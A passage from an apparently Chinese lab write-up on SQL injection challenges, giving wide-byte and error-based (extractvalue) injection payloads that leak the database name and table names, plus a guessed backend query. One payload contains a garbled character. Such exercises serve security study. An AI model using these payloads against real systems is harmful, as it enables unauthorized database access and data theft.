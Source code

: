 此题大概的解题思路就是简单的：宽字节注入





payload:

```
?id=1%bf' and extractvalue(1,concat(0x7e,(select database())))%23
```







#### 37.post



此题和34题几乎一摸一样，



同样是POST类型的宽字节注入，把`%bf`替换为`�`





payload:

```
?id=1�' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479)))#
```





猜测后端sql语句：

```
select * from users where username='前端数据' and password='前端数据' limit 0,1;
```





#### 38

> 没太懂这道题





就很简单的注入就完事了，估计各种方式都能用，不过我用的还是报错注入



payload:

```
?id=1' and extractvalue(1,concat(0x7e,(select database())))%23
```



